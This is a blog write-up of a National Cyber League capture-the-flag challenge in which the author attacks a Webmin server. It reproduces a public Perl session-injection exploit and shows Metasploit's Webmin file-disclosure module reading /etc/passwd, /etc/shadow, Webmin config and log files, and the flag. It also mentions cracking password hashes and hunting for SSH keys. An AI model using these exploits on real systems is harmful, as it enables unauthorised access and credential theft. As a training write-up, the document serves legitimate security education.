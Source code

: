 Title: NCL Exploit 2: Webmin Writeup
Date: 2014-09-30 22:49
Category: Old Posts
Tags: old
Slug: NCL-Exploit-2:-Webmin-Writeup
Authors: wumb0

This one was fun. The challenge was titled Exploit 2 with the task of finding the flag on the system. A quick nmap scan with service detection showed a Webmin console running on port 10000. I tried searching for a default password for default webmin login but it reads from shadow. I decided to look into webmin vulns next. A quick google search uncovered a remote command execution vuln! Hallelujah! I found the following exploit code.

```perl
#!/usr/bin/perl
#
# Exploit for Webmin 1.050 - 1.060 by Carl Livitt
#
# Inserts a fake session_id into the sessions list of webmin.
# Does no error checking... if remote host is not found, no
# error will be reported.
#

print "Webmin 1.050 - 1.060 Remote SID Injection Exploit\n";
print "By Carl Livitt \n\n";

$nc="/usr/bin/nc";

if($#ARGV == -1) {
    print "Syntax:\n\t$0 hostname\n";
    exit(1);
}

$hostname=$ARGV[0];

if ( ! -x $nc ) {
    print "netcat not found!\n";
    exit(2);
}

open(NC, "|$nc $hostname 10000 >& /dev/null");
print NC "GET / HTTP/1.1\n";
print NC "Host: $hostname\n";
print NC "User-agent: webmin\n";
print NC "Authorization: Basic YSBhIDEKbmV3IDEyMzQ1Njc4OTAgYWRtaW46cGFzc3dvcmQ=\n\n";
close(NC);

print "You should now have a session\_id of 1234567890 for user 'admin' on host $hostname.\n";
print "Just set two cookies in your browser:\n\ttesting=1\n\tsid=1234567890\nand you will ";
print "be authenticated to the webmin server!\n\n";
print "Note: This will only work on a webmin server configured with the 'passdelay' option.\n";
```

Escalating to admin looks good. Unfortunately, the exploit didn't seem to be working when I plugged the correct cookie values into Firefox.
So I kept looking... Metasploit module for file disclosure: auxiliary/admin/webmin/file\_disclosure
[[more]]


```
msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

   Name     Current Setting    Required  Description
   ----     ---------------    --------  -----------
   DIR      /unauthenticated   yes       Webmin directory path
   Proxies                     no        Use a proxy chain
   RHOST    54.221.*.*         yes       The target address
   RPATH    /etc/passwd        yes       The file to download
   RPORT    10000              yes       The target port
   VHOST                       no        HTTP server virtual host
```
Let's try it out...
```
msf auxiliary(file_disclosure) > exploit
[*] Attempting to retrieve /etc/passwd...
[*] The server returned: 200 Document follows
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
[*] Auxiliary module execution completed
```
HELL YES. But just to make sure we can get to ANY file...
```
msf auxiliary(file_disclosure) > set RPATH /etc/shadow
RPATH => /etc/shadow
msf auxiliary(file_disclosure) > exploit
```
Sure enough, the whole shadow file was dumped. There was one user with a hash: ubuntu. I took that attack vector, I started cracking it. SSH was also open on the machine, but unfortunately it only accepted authorized_keys. I stopped the crack, saved the hash for later, and continued my search for the flag.
The problem here is that directories cannot be listed, so we need to know what files to look in. I thought that maybe they had left their SSH keys lying around so I looked in /home/ubuntu/.ssh/ for id_rsa and id_dsa but no such luck. I searched around the internet for important webmin files and I found /etc/webmin/miniserv.conf. In this file there was the location of a users file...
```
session=1
<b>userfile=/etc/webmin/miniserv.users</b>
keyfile=/etc/webmin/miniserv.pem
passwd\_file=/etc/shadow
```
Looking in that file gave me back a user named 'admin' and a corresponding hash! I started cracking again.
In the mean time I wanted to find out more information about the webmin install. I ran across the path to a logfile: /var/webmin/webmin.log
So I ran the module:
```
msf auxiliary(file_disclosure) > set RPATH /var/webmin/webmin.log
RPATH => /var/webmin/webmin.log
msf auxiliary(file_disclosure) > exploit
[*] Attempting to retrieve /var/webmin/webmin.log...
[*] The server returned: 200 Document follows
1412056349.16448.0 [30/Sep/2014 05:52:29] admin 48ce0c8821c3b8e1bb0d4e1da9f6bfb3 69.243.41.246 shell index.cgi "run" "-" "-" cmd
='ls'
1412056361.16443.0 [30/Sep/2014 05:52:41] admin 48ce0c8821c3b8e1bb0d4e1da9f6bfb3 69.243.41.246 shell index.cgi "run" "-" "-" cmd
='echo ls'
...
1412058045.17086.0 [30/Sep/2014 06:20:45] admin bd3bb672780ccf9c85e4c31761e54e0c 96.244.40.9 shell index.cgi "run" "-" "-" cmd='cat flag.php'
1412058064.17085.0 [30/Sep/2014 06:21:04] admin bd3bb672780ccf9c85e4c31761e54e0c 96.244.40.9 shell index.cgi "run" "-" "-" cmd='find / -name flag.php'
1412058074.17133.0 [30/Sep/2014 06:21:14] admin bd3bb672780ccf9c85e4c31761e54e0c 96.244.40.9 shell index.cgi "run" "-" "-" cmd='cat <strong>/var/www/flag.php</strong>'
```
YES! That looks good... Now to look in that file...
```
msf auxiliary(file_disclosure) > set RPATH /var/www/flag.php
RPATH => /var/www/flag.php
msf auxiliary(file_disclosure) > exploit
[*] Attempting to retrieve /var/www/flag.php...
[*] The server returned: 200 Document follows
<? // THIS IS THE RRAL FLAG FOR THIS SYSTEM: <strong>NCL-OSSL-1337</strong> FLAG FLAG FLAG ?>;
[*] Auxiliary module execution completed
```
Got it, <b>NCL-OSSL-1337</b>.
